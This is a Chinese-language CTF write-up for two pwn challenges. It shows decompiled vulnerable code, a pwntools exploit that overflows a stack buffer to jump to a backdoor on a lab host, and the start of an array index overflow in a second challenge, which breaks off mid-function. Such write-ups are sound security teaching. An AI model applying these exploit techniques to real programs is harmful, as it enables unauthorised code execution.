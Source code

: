 

# xman-2017-caaa

简单栈溢出，给了后门，。。非常的蛇啊最简单的题放在最后

```python
int introduce()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("your name is:");
  read(0, buf, 0x80uLL);
  return printf("hello, %s!\n", buf);
}
```

## exp

```python
from pwn import *

r = remote('192.168.40.10' ,'27087')

payload='H' * (0x20+0x8) + p64(0x40078F)
r.recvuntil("4. Exit\n")
r.sendline("1")
r.recvuntil("your name is:\n")
r.send(payload)

r.interactive()
```



# ciscn-2018-note-service2 

存在数组溢出，如下

```c
int add()
{
  int result; // eax
  int v1; // [rsp+8h] [rbp-8h]
  unsigned int v2; // [rsp+Ch] [rbp-4h]

  result = dword_20209C;
  if ( dword_20209C >= 0 )
  {
    result = dword_20209C;
    if ( dword_20209C <= 11 )
    {
      printf("index:");
      v1 = sub_B91();
      printf("size:");
      result = sub_B91();
      v2 = result;
      if ( result >= 0 && result <= 8 )
      {
        qword_2020A0[v1] = malloc(result);
        if ( !qword_2020A0[v1] )
        {
          puts("malloc error");
          exit(0);
        }
```